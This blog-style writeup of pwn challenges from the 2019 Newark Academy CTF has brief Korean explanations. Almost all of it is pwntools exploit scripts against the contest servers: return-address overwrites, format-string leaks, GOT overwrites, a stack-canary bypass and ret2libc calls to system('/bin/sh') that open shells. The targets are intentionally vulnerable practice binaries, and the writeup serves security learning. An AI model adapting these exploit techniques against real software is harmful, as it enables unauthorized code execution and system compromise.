```yaml
---
title: "2019 Newark Academy CTF Writeup"
date: 2019-9-23
tags: [NaCTF]
categories: [Pwn]
---
```


# BufferOverflow #0

리턴값만 덮어주면 된다.

```python
from pwn import *

p = remote('shell.2019.nactf.com',31475) 
payload = ''
payload += 'A'*28
payload += p32(0x080491c2)
p.sendlineafter('>',payload)
p.interactive()
```

<br />

# BufferOverflow #1

리턴값만 덮어주면 된다.

```python
from pwn import *
 
p = remote('shell.2019.nactf.com',31462)
payload = ''
payload += 'A'*28
payload += p32(0x080491b2)
p.sendlineafter('>',payload)
p.interactive()
```

<br />

# BufferOverflow #2

인자로 들어가는 a1이 long long int라 p64로 값 맞춰주면 된다. 

```python
from pwn import *
 
context.log_level = "debug"
p = remote('shell.2019.nactf.com',31184)
e = ELF('./bufover-2')
win = 0x080491c2
payload = 'A'*28
payload += p32(e.sym.win)
payload += 'AAAA'
payload += p64(0x14B4DA55)
payload += p32(0xF00DB4BE)
p.sendlineafter('>',payload)
p.interactive()
```

<br />

# Format #0

그냥 printf 포맷스트링 버그 터지는데 Leak해주면 풀린다.

```python
from pwn import *
 
for i in range(30):
    p = remote('shell.2019.nactf.com',31782)
    payload = '%' + str(i) + '$s'
    sleep(1)
    p.sendlineafter('>',payload)
    ex = p.recv(1024)
    if 'nactf' in ex:
        print ex
        p.close()
        exit(0)
    p.close()
p.interactive()
```

<br />

# Format #1

fmtstr_payload로 printf got 주소를 win으로 바꿔주면 printf 함수 실행할때 win함수가 실행되서 풀릴 것이다.

```python
from pwn import *
 
p = remote('shell.2019.nactf.com',31560)
e = ELF('./format-1')
 
payload = fmtstr_payload(4,{e.got['printf']:e.symbols['win']})
p.sendlineafter('>',payload) 
p.interactive()
```

<br />

# Loopy#0

그냥 fsb로 leak해주고 RTL해주면 된다.

```python
from pwn import *
 
context.arch='i386'
e = ELF('loopy-0')
libc = ELF('./libc.so.6')
p = remote('shell.2019.nactf.com',31283)
 
popret = 0x0804901e # pop ebx ; ret
payload = p32(e.got['printf']) + '%4$s'
payload += 'A'*(0x48+4-8)
payload += p32(e.symbols['vuln']) # ret
p.sendlineafter('>',payload)
p.recvuntil(': ')
p.recv(4)
printf = u32(p.recv(4))
log.info('printf : ' + hex(printf))
libc_base = printf - libc.symbols['printf']
log.info('libc_base : ' + hex(libc_base))
 
payload2 = 'A'*(0x48+4)
payload2 += p32(libc_base + libc.symbols['system'])
payload2 += 'AAAA'
payload2 += p32(libc_base + libc.search('/bin/sh').next())
p.sendlineafter('>',payload2)
 
p.interactive()
```

<br />

# Loopy #1

Canary 걸려잇어서 stack_chk_fail GOT를 start로 바꾸고 Leak해주면서 Canary도 Leak해주고 Canary 잘 맞춰주고 페이로드 짜면 된다.

```python
from pwn import *
 
# context.log_level = 'debug'
e = ELF('./loopy-1')
libc = ELF('./libc.so.6')
p = remote('shell.2019.nactf.com',31732)
 
__stack_chk_fail = 0x0804C014 # got
_start = 0x08049090
 
payload = fmtstr_payload(7,{__stack_chk_fail:_start})
payload += 'A'*100
p.sendlineafter('>',payload)
 
payload2 = p32(e.got['printf']) + '%7$s'
payload2 += 'A'*100
p.sendlineafter('>',payload2)
 
p.recvuntil(': ')
p.recv(4)
libc_base = u32(p.recv(4)) - libc.symbols['printf']
log.info('libc_base : ' + hex(libc_base))
system = libc_base + libc.symbols['system']
binsh = libc_base + libc.search('/bin/sh\x00').next()
 
payload3 = '%31$p'
payload3 += 'A'*62
p.sendlineafter('>',payload3)
 
p.recvuntil(': ')
canary = int(p.recv(10),16)
log.info('canary : ' + hex(canary))
 
payload4 = 'A'*64
payload4 += p32(canary)
payload4 += 'A'*12
payload4 += p32(system)
payload4 += p32(system)
payload4 += p32(binsh)
p.sendlineafter('>',payload4)
 
p.interactive()
```

